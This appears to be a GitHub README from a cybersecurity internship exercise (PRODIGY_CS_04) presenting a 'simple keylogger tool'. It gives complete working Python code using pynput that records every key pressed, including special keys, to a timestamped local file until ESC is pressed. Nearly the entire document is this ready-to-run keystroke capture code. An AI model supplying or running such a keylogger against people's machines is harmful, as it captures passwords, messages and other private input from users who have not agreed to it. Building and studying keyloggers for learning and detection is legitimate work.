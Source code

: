 # PRODIGY_CS_04
The SIMPLE KEYLOGGER TOOL is a basic program designed to capture and log keystrokes on a computer. It records every key pressed by the user, including both alphanumeric characters and special keys. 
pip install pynput
from pynput import keyboard
import logging

# Setup logging configuration
logging.basicConfig(filename="keylog.txt", level=logging.INFO, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        # Log the key press
        logging.info(f'{key.char}')
    except AttributeError:
        # Special keys (e.g., space, enter) are handled here
        logging.info(f'{key}')

def on_release(key):
    # Stop the listener with ESC key
    if key == keyboard.Key.esc:
        return False

# Start listening to the keyboard
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
